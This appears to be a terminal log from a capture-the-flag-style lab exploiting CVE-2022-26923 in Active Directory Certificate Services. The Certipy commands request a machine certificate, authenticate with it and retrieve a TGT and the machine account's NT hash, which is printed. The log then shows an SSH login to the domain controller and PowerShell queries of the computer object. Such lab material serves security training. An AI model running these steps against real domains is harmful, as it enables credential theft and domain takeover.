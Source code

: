 ```

Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 21
[*] Got certificate with DNS Host Name 'THMPC.lunar.eruca.com'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'thmpc.pfx'
                                                                                  
┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ certipy-ad auth -pfx thmpc.pfx
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Using principal: thmpc$@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thmpc.ccache'
[*] Trying to retrieve NT hash for 'thmpc$'
[*] Got hash for 'thmpc$@lunar.eruca.com': aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a

┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ ssh lunar.eruca.com\\thm@lundc
The authenticity of host 'lundc (10.10.188.193)' can't be established.
ED25519 key fingerprint is SHA256:50ZqYlTFUYKTHHPzgPNzG0gSydLnknXL0Ea7lUs7tT8.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'lundc' (ED25519) to the list of known hosts.
lunar.eruca.com\thm@lundc's password: 

Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

lunar\thm@LUNDC C:\Users\thm>

lunar\thm@LUNDC C:\Users\thm>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm> Get-ADComputer THMPC -properties 
Get-ADComputer : Missing an argument for parameter 'Properties'. Specify a  
parameter of type 'System.String[]' and try again.
At line:1 char:22
+ Get-ADComputer THMPC -properties
+                      ~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (:) [Get-ADComputer], ParameterBi  
   ndingException
    + FullyQualifiedErrorId : MissingArgument,Microsoft.ActiveDirectory.Manageme  
   nt.Commands.GetADComputer
 
PS C:\Users\thm> Get-ADComputer THMPC -properties dnshostname,serviceprincipalname



DistinguishedName    : CN=THMPC,CN=Computers,DC=lunar,DC=eruca,DC=com 
DNSHostName          : THMPC.lunar.eruca.com
Enabled              : True
Name                 : THMPC
ObjectClass          : computer
ObjectGUID           : 8642d06f-e165-4484-a647-3153d87e0f41
SamAccountName       : THMPC$
```